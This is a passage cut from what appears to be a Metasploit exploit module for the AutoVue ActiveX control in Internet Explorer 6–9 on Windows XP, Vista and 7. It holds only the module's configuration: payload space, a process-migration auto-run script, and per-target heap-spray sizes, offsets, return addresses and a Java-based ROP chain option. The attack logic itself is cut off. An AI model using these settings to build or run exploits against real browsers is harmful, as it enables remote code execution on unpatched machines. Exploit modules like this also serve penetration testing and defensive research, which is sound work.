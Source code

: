         ],
       'DefaultOptions' =>
        {
         'EXITFUNC' => 'process',

        },
       'Payload'        =>
        {
         'Space' => 948,
         'DisableNops' => true,
        },
       'DefaultOptions'  =>
        {
         'InitialAutoRunScript' => 'migrate -f'
        },
       'Platform' => 'win',
       'Targets'        =>
        [
         # AutoVue.ocx 20.0.0.7330
         [ 'Automatic', {} ],
         [
          'IE 6 on Windows XP SP3',
          {
           'SprayBlocks' => 0x185,
           'SprayCounter' => '0x5f2', # 0x0c0c0c08
           'SprayOffset' => '0x600', # 0x0c0c0c24
           'Offset' => 1052,
           'Ret' => 0x0c0c0c0c,
           'Rop' => nil,
           'RandomHeap' => false
          }
         ],
         [
          'IE 7 on Windows XP SP3 / Windows Vista SP2',
          {
           'SprayBlocks' => 0x185,
           'SprayCounter' => '0x5f2', # 0x0c0c0c08
           'SprayOffset' => '0x600', # 0x0c0c0c24
           'Offset' => 1052,
           'Ret' => 0x0c0c0c0c,
           'Rop' => nil,
           'RandomHeap' => false
          }
         ],
         [
          'IE 8 with Java 6 on Windows XP SP3/7 SP1/Vista SP2',
          {
           'SprayBlocks' => 0x185,
           'SprayCounter' => '0x5f2', # 0x0c0c0c08
           'SprayStackPivot' => '0x5f6', # 0x0c0c0c10
           'SprayOffset' => '0x5fc', # 0x0c0c0c1c
           'Offset' => 1052,
           'Ret' => 0x0c0c0c0c,
           'Rop' => :jre,
           'RandomHeap' => false,
          }
         ],
         [
          'IE 9 with Java 6 on Windows 7 SP1',
          {
           'SprayBlocks' => 0x1000,
           'SprayNops' => '0x5f6', # 0x0c0c0bfc